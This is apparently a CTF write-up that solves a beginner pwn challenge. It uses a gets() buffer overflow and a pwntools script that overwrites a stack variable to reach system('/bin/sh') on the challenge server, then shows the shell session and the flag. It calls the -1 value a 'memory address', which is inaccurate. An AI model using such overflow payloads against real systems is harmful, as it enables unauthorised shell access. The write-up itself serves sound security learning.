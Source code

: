 # pwn/beginner-generic-pwn-number-0
Author: pepsipu

rob keeps making me write beginner pwn! i'll show him...

```nc mc.ax 31199```

# Solution

For beginner pwn challenges, they are usually some type of buffer overflow challenges.

Analyzing the c code they gave to us, we see that it is a buffer overflow exploit from the line, gets(heartfelt_message);

gets is a c function that is very vulnerable to many types of buffer overflow exploits.

Taking a look at the rest of the code, something else seems very interesting.

The lines, 
  if(inspirational_message_index == -1) {
    system("/bin/sh");
  }
}

We see that the another variable is being compared in order to get a shell and not our input variable.

Let's now take a look at the main function in ghidra.

```c
undefined8 main(void)

{
  uint uVar1;
  time_t tVar2;
  char local_38 [40];
  ulong local_10;
  
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  uVar1 = rand();
  local_10 = (ulong)(uVar1 & 1);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(*(char **)(inspirational_messages + local_10 * 8));
  puts(
      "rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!"
      );
  puts("can you write me a heartfelt message to cheer me up? :(");
  gets(local_38);
  if (local_10 == 0xffffffffffffffff) {
    system("/bin/sh");
  }
  return 0;
}
```
Looking at the main function in ghidra, we see some things that are useful to us that we couldn't see in the c code provided.

We see that instead of that other variable being compared to a -1, it is compared to a memory address.

Now we know that we need to get to this memory address.

Now we just have to find the offset. 

Looking at the ghidra code we see that 40 bytes are assigned.

```Idk why for some reason but ghidra gives more accurate byte readings```

Now that we know that the offset is 40 bytes, lets make a python script to get into this shell.

We will be using pwntools.

The script I made looks like this:

```python
from pwn import *

exe = ELF("beginner-generic-pwn-number-0")

context.binary = exe


def conn():
        if False:
                return process([exe.path])
        else:
                return remote("mc.ax", 31199)


def main():
        r = conn()
        r.recvuntil("can you write me a heartfelt message to cheer me up? :(")
        r.sendline(b"A"*40 + p64(0xffffffffffffffff))
        r.interactive()


if __name__ == "__main__":
        main()
```

The top part of the script is mostly just connecting to their server using the credentials they provided with the netcat.

Inside the main, we first receieve a connection from the server, wait until we get the message from the server before we put input (Not needed), then we send our payload and get into interactive mode, which just means we get into a shell. 

If we are in interactive and get a EOF, which means End of File, something is wrong.

Let's take a look at the payload.

Basically, we just fill up the first 40 bytes by doing 40 A's first then we use p64 which packs the bytes so we dont have to do \xff\xff\xff\xff\xff\xff\xff\xff. (They are the same thing)

Now that we sent it to that address, we should be getting a shell from their server if we run the program.

```
python3 buffer-overflow.py                                                                   
[*] '/home/kali/Downloads/beginner-generic-pwn-number-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mc.ax on port 31199: Done
[*] Switching to interactive mode

$ ls
flag.txt
run
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
[*] Got EOF while reading in interactive
$  
```

And we do get a shell from their server.

We print out the flag.txt file using cat and get the flag.

Don't worry about the EOF now we already got the flag.

# Flag
```flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}```
